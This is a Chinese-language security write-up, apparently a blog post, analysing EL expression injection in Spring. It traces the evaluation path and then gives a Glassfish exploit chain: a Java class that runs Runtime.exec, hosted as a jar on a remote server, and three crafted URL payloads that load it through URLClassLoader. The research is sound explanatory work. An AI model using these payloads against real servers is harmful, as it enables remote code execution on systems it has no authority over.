 0x02 EL表达式注入问题
--------------

* * *

2012年12月国外研究者DanAmodio发表《Remote Code with Expression Language Injection》一文，拉开了Spring框架EL表达式注入的序幕。

随着表达式的愈加强大，使得原来本不应该出问题的情况，出现了一些比较严重的问题。而且Java Web框架一般都会有在核心代码使用表达式的坏习惯，Struts就是很好的例子。Spring的框架本身是不会存在代码执行的问题，但是随着EL表达式的强大，逐渐成为了问题。而且EL表达式是Java Web程序默认都会使用的一种表达式，这可能会在未来一段时间内成为Java Web程序的噩梦。

我通过代码跟踪定位到Spring最终执行EL表达式的代码：

```
private static Object evaluateExpression(String exprValue, Class resultClass, PageContext pageContext)
        throws ELException {

    return pageContext.getExpressionEvaluator().evaluate(
            exprValue, resultClass, pageContext.getVariableResolver(), null);
}

```

了解了Spring标签属性执行EL表达式的大体流程：首先通过标签类处理相关内容，将需要执行EL表达式的标签属性传入到evaluateString或者其他方法，但最终都将流入到doEvaluate方法中，经过一些处理将截取的属性值最为传入到evaluateExpression方法，最后evaluateExpression方法再将传入的属性值作为表达式交给平台去执行。

以上这些其实仅仅是对EL表达式注入问题分析的开始，因为真正实现执行的地方是平台，也就是说，不同的平台EL表达式的操作和执行也是不同的。因此，我分别针对Glassfish和Resin平台进行了测试，目前比较流行的Tomcat平台也进行了测试，但是由于它和Spring框架在EL表达式的实现上存在一些分歧，导致Tomcat平台下EL表达式不可以调用方法。

下面我们分别来看看Glassfish和Resin平台下，不同的利用方法。  
先来看Glassfish下的利用，首先在我们另一台服务器上放置编译如下代码的jar文件：

```
public class Malicious { public Malicious() { try { java.lang.Runtime.getRuntime().exec("calc.exe"); //Win } catch (Exception e) { } } }       

```

然后我们通过EL表达式创建一个数组（URLClassLoader的构造函数需要URL数组作为参数），存放在session中，url为

```
http://target/file? message=${pageContext.request.getSession().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}。  

```

下一步我们通过URI提供的create方法，可以创建一个URL实例，我们把这个实例保存在刚刚创建的数组中，url为

```
http://target/file?message= ${pageContext.request.getSession().getAttribute("arr").add(pageContext.getServletContext().getResource("/").toURI().create("http://serverip/Malicious.jar").toURL())}。  

```

Malicious.jar文件就是我们之前保存在另一台服务器中的jar文件。EL表达式中的PageContext类中getClassLoader方法得到的对象的父类便是URLClassLoader，所以，我们便可以调用newInstance方法了，url为

```
http://target/file?message= ${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}。  

```
